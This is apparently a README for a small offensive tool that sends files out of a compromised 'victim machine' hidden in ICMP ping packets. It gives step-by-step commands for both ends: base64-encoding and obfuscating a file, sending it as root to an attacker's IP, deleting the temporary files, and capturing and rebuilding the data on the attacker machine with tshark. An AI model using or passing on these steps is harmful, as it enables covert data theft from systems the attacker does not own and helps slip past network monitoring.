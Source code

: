 # ICMP Encoded Message

Small project to send files encoded and obfuscated over ICMP as a secondary means of communication.

It's required to have root access in the victim machine.

The obfuscation method can be changed. Just edit *ofuscador.py* and *deOfuscador.py* to something that fits your needs.

Steps:
```
[Victim Machine]
    cat <file to send> | base64 > token
    python ofuscador.py token tmp
    rm token
    (sudo) python icmp.py <ip to send the file> tmp # You need to run this as root
    rm tmp

[Attacker Machine]
    (sudo) tshark -i <interface> -f 'icmp[0] == 8' -e data -Tjson > tout.json # You need to run this as root
    ./getFileBack.sh <final File>
```

